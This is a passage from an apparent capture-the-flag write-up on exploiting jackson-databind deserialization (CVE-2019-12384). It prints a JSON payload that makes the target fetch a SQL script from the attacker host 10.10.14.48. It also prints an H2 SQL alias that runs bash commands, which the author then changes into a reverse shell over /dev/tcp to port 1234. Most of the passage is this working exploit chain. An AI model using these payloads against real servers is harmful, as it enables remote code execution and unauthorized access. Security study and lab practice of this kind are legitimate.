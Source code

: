 ```java
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN.
```

Having a look for any exploits which mention `fasterxml.jackson`, I came across the following Deserialization vulnerability: <https://snyk.io/vuln/SNYK-JAVA-COMFASTERXMLJACKSONCORE-467015>.

> com.fasterxml.jackson.core:jackson-databind is a library which contains the general-purpose data-binding functionality and tree-model for Jackson Data Processor. Affected versions of this package are vulnerable to Deserialization  of Untrusted Data. A Polymorphic Typing issue was discovered as com.zaxxer.hikari.HikariConfig was not blocked. Note: This is a different vulnerability than CVE-2019-16335.

It didn't seem as if there were any publically available PoCs for the above CVE, so I kept searching for similar vulnerabilities. This lead me to: <https://nsfocusglobal.com/jackson-databind-remote-code-execution-vulnerability-cve-2019-12384-threat-alert/>

> Recently, a security researcher discovered a vulnerability (CVE-2019-12384) in jackson-databind, noting that when certain conditions are met, an attacker, via a malicious request, could bypass the blacklist restriction and remotely execute code in an affected server during deserialization.

In order to exploit this vulnerability, I needed to send the following JSON query to the web application:

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.48:8000/inject.sql'"}]
```

The code seemed to call a script from the attackers local machine through the use of JDBC which is a Java Database connection. There was a publically available exploit for the SQL function on Github: <https://github.com/jas502n/CVE-2019-12384>. I copied the code and inserted it into an `inject.sql` file. The function is shown below:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('id > exploited.txt')
```

A full breakdown of the code as well as a blogpost on how this vulnerability was found is on the Doyensec blog: <https://blog.doyensec.com/2019/07/22/jackson-gadgets.html>. As shown above, the `SHELLEXEC` function simply output a value to a text file. In order to exploit this vulnerability, I decided to change the `SHELLEXEC` command to a reverse shell command that would provide me with a foothold on the host.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new 
    java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : ""; }
$$;
CALL SHELLEXEC('setsid bash -i &>/dev/tcp/10.10.14.48/1234 0>&1 &')
```
